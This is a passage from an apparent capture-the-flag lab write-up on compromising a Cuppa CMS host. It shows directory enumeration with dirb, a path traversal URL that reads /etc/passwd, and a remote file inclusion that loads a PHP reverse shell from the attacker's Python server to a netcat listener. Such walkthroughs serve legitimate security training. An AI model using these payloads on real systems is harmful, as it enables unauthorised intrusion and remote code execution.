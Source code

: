 ![image](https://user-images.githubusercontent.com/115602464/195756477-77cd0b84-afc1-4f8d-a90a-b4ce48a292a2.png)

There doesn't seem to be anything important here. Lets run dirb to find any directories hidden within this one.

```
dirb http://10.10.209.119/45kra24zxs28v3yd/
```

One of the directories that is found is /administrator.

![image](https://user-images.githubusercontent.com/115602464/195756685-5b5372c6-bf98-434e-bd5d-29e0c7cc4315.png)

Visiting /administrator we see a cuppa CMS login. 

# Exploitation

Before trying to attack the login form, lets see if there is an exploit that exists for `Cuppa CMS`.

![image](https://user-images.githubusercontent.com/115602464/195757669-54b67500-1807-4f4f-96f5-347a68db60ff.png)

Reading the exploit page we can see that this isn't a python script. This is a remote file inclusion vulnerability. This exploit can be done through the URL.

![image](https://user-images.githubusercontent.com/115602464/195758051-adf1f722-573c-40ee-b687-f8e3bc75619d.png)


We can test this by running the command

```
http://10.10.209.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

Since this works we can use the first example in the picture above to load up a php reverse shell.

Lets download a php reverse shell and modify the IP to match our machine and the port to be 1337.

We also need to start a python http server. We can do this with `python2 -m SimpleHTTPServer 4444`.

Place the reverse shell in the directory where you ran your python server.

Your reverse shell should look like this:

![image](https://user-images.githubusercontent.com/115602464/195759360-550fbe15-c027-4f1a-a466-190a4cdf8920.png)

Lets also host a listener on our attacker machine. This can be done with `nc -lvnp 1337`.

At this point we should have a listener on port 1337 and our python server on port 4444.

Now on the target machine we can access the revshell by going to our python server. Your IP will be different but it should look something like this:

`http://10.10.209.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.100.47:4444/revshell.php`

Check your listener and you should have a reverse shell!

